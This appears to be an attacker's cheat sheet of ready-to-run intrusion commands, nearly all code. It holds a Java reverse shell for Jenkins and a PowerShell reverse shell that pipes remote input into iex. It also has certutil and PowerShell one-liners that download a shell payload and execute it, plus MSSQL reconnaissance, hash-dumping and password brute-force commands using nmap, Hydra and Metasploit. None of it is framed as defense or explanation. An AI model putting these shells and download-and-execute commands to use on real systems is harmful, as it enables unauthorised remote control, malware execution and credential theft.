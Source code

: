 ```
# connect to localhost with rdp
$ /usr/bin/rdesktop -g 1024x768 -P -z -x l -k en-us -r sound:off localhost:7777
```
# Jenkins Reverse Shell
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
# Powershell Reverse Shell

change IP and Port / Limmited version
```
$sm=(New-Object Net.Sockets.TCPClient('192.168.1.11',9001)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

# Donwload file to Victim machine
```
cmd /c certutil -urlcache -split -f http://127.0.0.1/shell.exe c:\Temp\shell.exe && C:\temp\shell.exe
```
```
powershell -v 2 -exec bypass IEX(New-Object Net.WebClient).downloadString("http://127.0.0.1/shell.ps1")
```
# MSSQL attack
## Service discovery
**Nmap**
```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```
**MetaSploit**
```
msf > use auxiliary/scanner/mssql/mssql_ping
```
Enumeration
Combine user passwords collected in other ways into a dictionary to enumerate MSSQL machines in the domain.

**Nmap**
```
nmap -n -sV -Pn -vv -p<PORT> --script=banner,ms-sql-empty-password,ms-sql-dac,ms-sql-dump-hashes,ms-sql-info,ms-sql-ntlm-info,vulners -oA <IP>_mssql.txt <IP>
nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=user.txt,passdb=pass.txt 192.168.1.1
nmap -p 1433 --script ms-sql-brute --script-args userdb=user.txt,passdb=pass.txt 192.168.1.1
Hydra
hydra -L userlist_sqlbrute.txt -P quick_password_spray.txt -f -o output.ms-sql -u <IP> -s <PORT>
```
**MetaSploit**
```
msf > use auxiliary/admin/mssql/mssql_enum
msf > use auxiliary/scanner/mssql/mssql_login
```